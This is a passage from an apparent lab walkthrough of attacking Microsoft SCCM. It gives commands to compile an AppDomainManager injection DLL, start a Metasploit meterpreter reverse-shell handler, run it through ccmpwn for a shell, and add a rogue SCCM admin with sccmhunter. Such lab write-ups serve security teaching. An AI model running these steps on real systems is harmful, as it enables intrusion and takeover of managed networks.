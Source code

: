 - Upload the cs file on client and compile with:

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /platform:x64 /target:library .\poc.cs
```

- download back the dll generated (`poc.dll`) to our linux container
- create the configuration file `msf.config`

```
<configuration>
  <runtime>
    <appDomainManagerAssembly value="poc, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" />
    <appDomainManagerType value="MyAppDomainManager" />
  </runtime>
</configuration>
```

- Launch metasploit

```bash
msfconsole -x "use exploits/multi/handler; set lhost vmnet6; set lport 443; set payload windows/x64/meterpreter/reverse_tcp; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; set ExitOnSession false; run -j"
```

- And finally launch ccmpwn

```bash
python3 ccmpwn.py 'CLIENT'/administrator:'EP+xh7Rk6j90'@192.168.33.13 exec -dll msf.dll -config msf.config 
```

- A few seconds later we get a shell as eve \o/

![ccmpwn_impersonate.png](/assets/blog/SCCM/ccmpwn_impersonate.png)

# Exploit with SCCM admin account

## Add a new admin

- What we can do with an SCCM admin account is add a new admin

```bash
ldeep ldap -u carol -p SCCMftw -d SCCM.lab -s ldap://192.168.33.10 search '(name=franck)' 'objectSid'
[{
  "dn": "CN=franck,CN=Users,DC=sccm,DC=lab",
  "objectSid": "S-1-5-21-3544182104-1320166847-3102157022-1117"
}]
```

- Add franck as admin

```bash
python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11 -debug
() (C:\) >> add_admin franck S-1-5-21-3544182104-1320166847-3102157022-1117
```
